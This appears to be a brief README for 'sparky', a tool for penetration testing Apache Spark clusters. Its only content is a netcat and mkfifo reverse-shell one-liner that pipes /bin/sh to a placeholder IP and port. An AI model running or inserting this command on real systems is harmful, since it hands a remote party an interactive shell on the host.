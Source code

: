 # sparky
Tool to pentest spark clusters


reverse shell on sh :
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f
